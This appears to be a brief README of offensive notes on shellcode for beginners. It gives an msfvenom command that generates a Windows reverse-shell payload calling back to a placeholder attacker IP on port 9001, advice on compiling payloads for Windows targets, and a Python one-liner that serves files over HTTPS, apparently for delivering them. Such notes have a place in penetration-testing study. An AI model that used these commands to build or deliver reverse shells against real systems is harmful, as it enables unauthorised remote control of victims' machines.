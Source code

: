 ### What ?
Just few notes about shellcodes. Nothing new nor groundbreaking; only reminders, hints and some workbase for beginners in shellcode.


### SHELLCODE GENERATION
msfvenom -p windows/shell_reverse_tcp LHOST=IP_ATTACKER LPORT=9001 -f c



### COMPILE TIME
When your target is Windows, you should compile your C code using MSVC and your C# code with csc (Windows version, not mono-csc)
Compiling with mono-csc and mingw-gcc 


## Set a simple HTTPS server

# create .key / .pem files to encrypt stream
openssl req -x509 -nodes -days 365 -newkey rsa:2048 -keyout "localhost.key" -out "localhost.pem" -subj "/"

# start server
sudo python3 -c "import http.server, ssl;server_address=('0.0.0.0',443);httpd=http.server.HTTPServer(server_address,http.server.SimpleHTTPRequestHandler);httpd.socket=ssl.wrap_socket(httpd.socket,server_side=True,keyfile='localhost.key',certfile='localhost.pem',ssl_version=ssl.PROTOCOL_TLSv1_2);httpd.serve_forever()"
